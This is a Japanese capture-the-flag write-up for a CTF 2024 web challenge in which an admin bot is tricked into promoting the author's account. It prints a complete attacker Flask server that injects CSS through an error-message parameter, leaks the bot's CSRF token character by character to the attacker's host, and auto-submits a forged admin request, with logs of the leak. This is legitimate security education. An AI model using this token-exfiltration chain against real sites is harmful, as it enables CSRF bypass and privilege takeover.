



# Great Management Opener:web:315pts
Can you manage?  

- Challenge: [http://34.81.113.24:5000](http://34.81.113.24:5000)  
- Admin bot: [http://35.221.184.101:1337](http://35.221.184.101:1337)  

[Attachment](firectf_ierae-ctf-2024-prod-eh2j3_distfiles_great-management-opener.tar.gz)  

# Solution
チャレンジURL、ボットURL、ソースが渡される。  
構成から見ても、XSS、CSSi、XS-Leaks問題のようだ。  
まずはチャレンジURLにアクセスすると、ただのログインサービスのようだ。  
  
アカウントを`satoki00`/`satoki00`で作成しログインするも特にログアウトボタン以外は見当たらない。  
  
次にソースを見る。  
メイン機能である、routes.pyの主要部分は以下の通りであった。  
```py
~~~

def admin_required(f):
    @wraps(f)
    def _wrapper(*args, **keywords):
        if not current_user.is_admin:
            return redirect(url_for('home', message='Required is_admin=True'))
        v = f(*args, **keywords)
        return v
    return _wrapper

@login_manager.user_loader
def load_user(user_id):
    return User.query.get(int(user_id))

@app.route('/')
def home():
    return render_template('home.jinja2')

@app.route('/register', methods=['GET', 'POST'])
~~~

@app.route('/login', methods=['GET', 'POST'])
~~~

@app.route('/admin', methods=['GET', 'POST'])
@login_required
@admin_required
def admin():
    if request.method == 'POST':
        username = request.form.get('username')
        csrf_token = request.form.get('csrf_token')

        if not username or len(username) < 8 or len(username) > 20:
            return redirect(url_for('admin', message='Username should be between 8 and 20 characters long'))

        if not csrf_token or csrf_token != session.get('csrf_token'):
            return redirect(url_for('admin', message='Invalid csrf_token'))

        user = User.query.filter_by(username=username).first()
        if not user:
            return redirect(url_for('admin', message='Not found username'))

        user.is_admin = True
        db.session.commit()
        return redirect(url_for('admin', message='Success make admin!'))
    return render_template('admin.jinja2', csrf_token=session.get('csrf_token'))

@app.route('/admin/flag')
@login_required
@admin_required
def admin_flag():
    return app.config['FLAG']

@app.route('/logout')
~~~
```
`is_admin`がTrueであるadminは、`/admin/flag`からフラグが得られるようだ。  
そしてadminは`/admin`で他ユーザの`is_admin`をTrueにし、adminを増やせる。  
当たり前だが現状ではフラグは取得できない。  
次にボットだが、adminである`botadmin`としてログインした後に、任意のURLにアクセスし50sも待機する。  
```js
import puppeteer from "puppeteer";

const APP_ADMIN_USERNAME = process.env.APP_ADMIN_USERNAME ?? console.log("No env") ?? process.exit(1);
const APP_ADMIN_PASSWORD = process.env.APP_ADMIN_PASSWORD ?? console.log("No env") ?? process.exit(1);

const APP_HOST = "web";
const APP_PORT = "5000";
const TIMEOUT_SECONDS = 50;
export const APP_URL = `http://${APP_HOST}:${APP_PORT}`;

const sleep = async (ms) => new Promise((resolve) => setTimeout(resolve, ms));

export const visit = async (url) => {
  console.log(`start: ${url}`);

  const browser = await puppeteer.launch({
    headless: "new",
    executablePath: "/usr/bin/chromium",
    args: [
      "--no-sandbox",
      "--disable-dev-shm-usage",
      "--disable-gpu",
      '--js-flags="--noexpose_wasm"',
    ],
  });

  const context = await browser.createBrowserContext();

  try {
    // Login with admin user
    const page = await context.newPage();
    await page.goto(`${APP_URL}/login`, { timeout: 3000 });
    await page.waitForSelector("#username");
    await page.type("#username", APP_ADMIN_USERNAME);
    await page.waitForSelector("#password");
    await page.type("#password", APP_ADMIN_PASSWORD);
    await page.click("button[type=submit]");
    await sleep(1 * 1000);

    await page.goto(url, { timeout: 3000 });
    await sleep(TIMEOUT_SECONDS * 1000);
    await page.close();
  } catch (e) {
    console.error(e);
  }

  await context.close();
  await browser.close();

  console.log(`end: ${url}`);
};
```
50sという長時間から考えるに、何らかのオラクルでデータをリークすることが伺える。  
ローカルで動かし、adminとしてログインして機能を触ってみる。  
`/admin`にあるadminを増やすフォームは以下の通りであった。  
```html
~~~
    <form method="POST" action="/admin" class="row g-3">
        <input type="hidden" name="csrf_token" value="deee8d398ba385d8559f18ffd26655c5">
        <div class="col-auto">
            <input type="text" name="username" id="username" class="form-control" placeholder="Username" required="">
        </div>
        <div class="col-auto">
            <button type="submit" class="btn btn-primary">Make</button>
        </div>
    </form>
~~~
```
CSRFもトークンがあるため難しそうだ。  
弄っていると不正なユーザをadminにしようとした際にエラーメッセージが表示されることに気づく。  
  
この際のURLは`http://localhost:5000/admin?message=Not+found+username`であり、`?message=<s>satoki`としてやるとタグが有効であった(文字数制限があるようだ)。  
XSSに持ち込めると考えるが、CSPが`script-src 'self'; style-src * 'unsafe-inline';`と強力であるため難しい。  
`style-src`が妙に緩いと考えていると、CSSiで属性値を盗み出すテクニックを思い出す。  
`<style>@import url(自身のサーバにあるCSSiペイロード)</style>`とすれば`message`文字数制限を無視してCSSiできる。  
`csrf_token`を盗み出し、自身のユーザ名`satoki00`をPOSTすることでadminになれそうだ。  
ただし、adminは毎回ログインし、`csrf_token`はセッション管理なのでワンショットで行う必要がある。  
幸運なことにボットはpuppeteerなので`window.open`しまくってやればよい。  
以下のserver.pyを自身のサーバへデプロイし、ボットに踏ませてやればよい(32文字だがキャッチミスを恐れて40程回している)。  
```py
from flask import Flask, Response, request

app = Flask(__name__)

TARGET_SERVER = "http://web:5000"
MY_SERVER = "http://localhost:31415"  # Your server's IP address

token_string = "0123456789abcdef"

csrf_token = ""


@app.route("/")
def index():
    return f"""
<!DOCTYPE html>
<html>
<head>
</head>
<body>
    <form action="{TARGET_SERVER}/admin" method="POST">
        <input type="hidden" name="csrf_token" value="">
        <input type="hidden" name="username" value="satoki00">
        <input type="submit" value="Submit CSRF Request">
    </form>
    <script>
        let count = 0;
        setInterval(() => {{
            if (count > 40) {{
                fetch('/token')
                    .then(response => response.text())
                    .then(text => {{
                        document.querySelector('input[name="csrf_token"]').value = text;
                        document.forms[0].submit();
                    }})
            }}
            window.open('{TARGET_SERVER}/admin?message=%3Cstyle%3E@import%20url({MY_SERVER}/payload);%3C/style%3E');
            count++;
        }}, 1000);
    </script>
</body>
</html>
"""


@app.route("/payload")
def payload():
    css_payload = ""
    for c in token_string:
        css_payload += f"input[name='csrf_token'][value^='{csrf_token + c}'] ~ * {{ background-image: url('{MY_SERVER}/leak?token={csrf_token + c}'); }}\n"
    return Response(css_payload, mimetype="text/css")


@app.route("/leak")
def leak():
    token = request.args.get("token", "")
    global csrf_token
    csrf_token = token
    print(f"[LEAK] csrf_token = {csrf_token}")
    return ":)"


@app.route("/token")
def token():
    if len(csrf_token) != 32:
        print(f"[OMG] csrf_token = {csrf_token}")
    return csrf_token


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=31415)
```
ボットへ投げると以下のようにリークしたアクセスが得られる。  
```bash
$ python server.py
~~~
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET / HTTP/1.1" 200 -
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET /favicon.ico HTTP/1.1" 404 -
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET /payload HTTP/1.1" 200 -
[LEAK] csrf_token = 4
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET /leak?token=4 HTTP/1.1" 200 -
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET /payload HTTP/1.1" 200 -
[LEAK] csrf_token = 49
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET /leak?token=49 HTTP/1.1" 200 -
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET /payload HTTP/1.1" 200 -
[LEAK] csrf_token = 499
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET /leak?token=499 HTTP/1.1" 200 -
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET /payload HTTP/1.1" 200 -
[LEAK] csrf_token = 499b
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET /leak?token=499b HTTP/1.1" 200 -
~~~
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET /payload HTTP/1.1" 200 -
[LEAK] csrf_token = 499baa3a69fa1f08dd63ef0255bb5d4
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET /leak?token=499baa3a69fa1f08dd63ef0255bb5d4 HTTP/1.1" 200 -
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET /payload HTTP/1.1" 200 -
[LEAK] csrf_token = 499baa3a69fa1f08dd63ef0255bb5d45
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET /leak?token=499baa3a69fa1f08dd63ef0255bb5d45 HTTP/1.1" 200 -
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET /payload HTTP/1.1" 200 -
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET /payload HTTP/1.1" 200 -
~~~
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET /token HTTP/1.1" 200 -
```
完了するとユーザ`satoki00`がadminとなっているため、ログインし`/admin/flag`へアクセスすればよい。  
  
flagが得られた。  

## IERAE{G00d_Manipu1ation!_Over}